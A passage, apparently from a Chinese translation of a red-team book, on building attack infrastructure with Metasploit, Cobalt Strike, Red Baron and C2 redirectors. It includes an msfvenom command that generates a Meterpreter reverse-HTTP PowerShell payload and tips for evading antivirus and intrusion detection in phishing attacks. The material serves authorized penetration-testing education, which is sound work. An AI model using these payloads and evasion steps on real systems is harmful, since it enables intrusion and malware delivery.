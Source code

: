 我曾经看到一些红队在 AWS 中，使用 Docker 运行 Kali Linux (或者至少是 Metasploit) (参考: http://bit.ly/2qz2vN9 )。在我看来，虽然创建你自己的系统怎么样都可以。但是更好的选择是创建一个高效且可重复的流程来部署多台机器。使用 Lightsail 的 最大好处是一旦你将你的机器配置为你的首选项，你就可以对一台机器进行快照，并部署使用该镜像的多个全新实例。

如果你想让你的环境更上一层楼，看看 Coalfire 研究所的团队。他们构建了自定义模块来为你完成所有的艰苦工作和自动化。[Red Baron](https://github.com/Coalfire-Research/Red-Baron) 是 Terraform 的一组模块和自定义/第三方提供者，它可以为红队自动创建弹性、一次性、安全和灵活的基础设施。无论你想要构建一个钓鱼服务器，Cobalt Strike 基础设施，或创建 DNS C2 服务器，你都可以用 Terraform 做到这一切。

查看 https://github.com/Coalfire-Research/Red-Baron 并查看所有不同的模块以便快速构建你自己的基础架构。

## 红队的核心工具 
红队可能会使用很多工具，但是让我们来讨论些最核心的工具。请记住，作为一个红队成员，我们的目的不是破坏环境(虽然这是最有趣的)，而是要复制现实世界的攻击，以查看客户是否受到保护，并可以在很短的时间内检测到攻击。在前面的章节中，我们了解了如何从其他 APT 组织那里复制攻击者的概要文件和工具集，所以让我们回顾一下一些最常见的红队工具。

### Metasploit 框架
本书不会像前几本书那样深入探讨 Metasploit。尽管 [Metasploit 框架](https://github.com/rapid7/metasploit-framework)最初是从 2003 年开发的，但它现在仍然是一个非常棒的工具。这是由于最初的开发者 H.D. Moore 和非常活跃的社区为它提供持续支持。这个社区驱动的框架，似乎每天更新，拥有所有最新的公开漏洞的利用、后渗透利用模块、辅助模块等等。

对于红队项目，我们可能使用 Metasploit 通过[MS17-010永恒之蓝漏洞](http://bit.ly/2H2PTsI)危害内部系统，以获得我们的第一个内网 shell,或者我们可能使用 Metasploit 为我们的社会工程攻击生成一个 Meterpreter payload。 

在后面的章节中，我将向你展示如何重新编译你的 Metasploit payload 并绕过杀毒软件和网络监控。

#### 混淆 Meterpreter 的 Payload
如果我们正在针对目标进行一些社工尝试，我们可能会使用 Word 或 Excel 文档作为我们的 payload（攻击载荷）的载体。 但是，一个潜在的问题是我们可能无法包含 Meterpreter 的 payload 的二进制文件或让目标机器从 Web 下载我们的 payload，因为这些操作可能会触发目标机器中的杀毒软件的警报。 所以，这里给出一个简单的解决方案，使用 PowerShell 进行模糊处理：

```shell
msfvenom -payload windows/x64/meterpreter_reverse_http -format psh -out meterpreter-64.ps1 LHOST=127.0.0.1
```

我们甚至可以将混淆提升到新的水平，并使用 [Unicorn](https://github.com/trustedsec/unicorn) 等工具生成更多模糊的基于 PowerShell 的 Meterpreter payload，我们将在本书中详细介绍这些混淆器。

![](../images/chapter_1/1-5.PNG)

此外，使用受信任的机构签发的 SSL/TLS 证书可以帮助我们绕过某些网络中的 IDS（入侵检测系统），具体可以参考以下链接实现：[Meterpreter Paranoid Mode](https://github.com/rapid7/metasploit-framework/wiki/Meterpreter-Paranoid-Mode)。

最后，在本书的后面部分，我们将讨论如何重新编译利用 Metasploit/Meterpreter 来绕过基于主机和网络的检测工具。

### Cobalt Strike
Cobalt Strike 是迄今为止我最喜欢的红队模拟工具之一。什么是 Cobalt Strike 呢？它是一种用来后期持久渗透，横向移动，流量隐藏、数据窃取的工具。 Cobalt Strike 并没有直接的漏洞利用，也没有通过最新的 0-Day 漏洞来破坏系统。当你已经在服务器上执行了 CS 的恶意代码或者将 CS 用作网络钓鱼活动的一部分时，你就能感受到 CS 的功能是多么广泛并且强大。 一旦你可以在机器上执行 Cobalt Strike 的 payload，它创建一个 Beacon(远控木马功能)连接回连到 C2 服务器（teamserver）。

新的 Cobalt Strike 许可证的费用为3500美元(单用户一年)，所以它并不是一个便宜工具。 不过该软件有免费的限量试用版。

#### Cobalt Strike 基础设施
正如上文所述，在基础设施方面，我们希望设置这样一个可重用且高度灵活的环境。Cobalt Strike 支持重定向，当你的 Cobalt Strike 使用的 C2 域名被销毁了，你不需要创建并启用一个新的环境，只需要替换一个新的 C2 域名。你可以在这里找到更多的使用 socat 配置这些重定向器的信息：[链接1](http://bit.ly/2qxCbCZ)  &  [链接2](http://bit.ly/2IUc4Oe)
